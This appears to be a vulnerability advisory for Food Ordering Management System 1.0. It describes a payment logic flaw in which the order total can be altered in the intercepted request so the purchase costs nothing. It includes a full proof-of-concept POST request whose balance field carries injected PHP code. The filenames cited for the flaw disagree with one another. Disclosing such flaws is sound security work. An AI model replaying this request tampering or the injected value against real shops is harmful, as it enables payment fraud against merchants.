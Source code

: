 ##The Food order management system has a payment logic vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/place-order.php

## Description:
Food Ordering Management 1.0 is vulnerable to an unrestricted amount modification logic vulnerability with total parameter in /foms/routers/place-order.php.The payment data package contains a lot of sensitive information (such as amount, order user ID), and malicious attackers can exploit this vulnerability to modify the sensitive information in the data packet.

Status: CRITICAL

POC
```
POST /foms/routers/order-router.php HTTP/1.1
Host: localhost:8088
Content-Length: 158
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8088/foms/confirm-order.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlodrr0cq84ndg4raumb7hpcla
Connection: close

1=4&2=5&3=5&payment_type=Wallet&address=riehf1234562131241&description=1234567890&balance=%3C%3Fphp+echo+%28%24balance-%24total%29%3B%3F%3E&total=3084&action=
```
##steps

1、Create an example: The user enters the order page to generate an order
![5ced3caf76cce98927cfa4f14e0a842](https://github.com/user-attachments/assets/4e7c683f-14b1-4923-aecb-6df60ca19ce9)

2、Fill in the order details correctly, otherwise the creation will fail
![d0b91603cc7936bb4e74f619fe18e6d](https://github.com/user-attachments/assets/4d7e6b47-c713-403e-beae-a15d7c7fa858)

3、Submit the order and grab the packet
![7e18db6e1161b60aa0cf5ae43692188](https://github.com/user-attachments/assets/caf37f07-6950-4c16-9404-bc5d5248d480)
![d04c19e34cf052b5165b3e7b9549c40](https://github.com/user-attachments/assets/b51245b1-d9fc-4ec6-ab4e-3d22931a0e8a)


4、Purchase with zero fee by modifying the amount in the payment package
![d2c264eb83deca3a7fad34397b3cdf4](https://github.com/user-attachments/assets/a6ffce4d-85bd-4527-bb87-4a7adcb2a542)
![f5e314c133e74089f5298e7f98b533b](https://github.com/user-attachments/assets/81c5c6da-b2b4-4753-9927-2957d279e878)










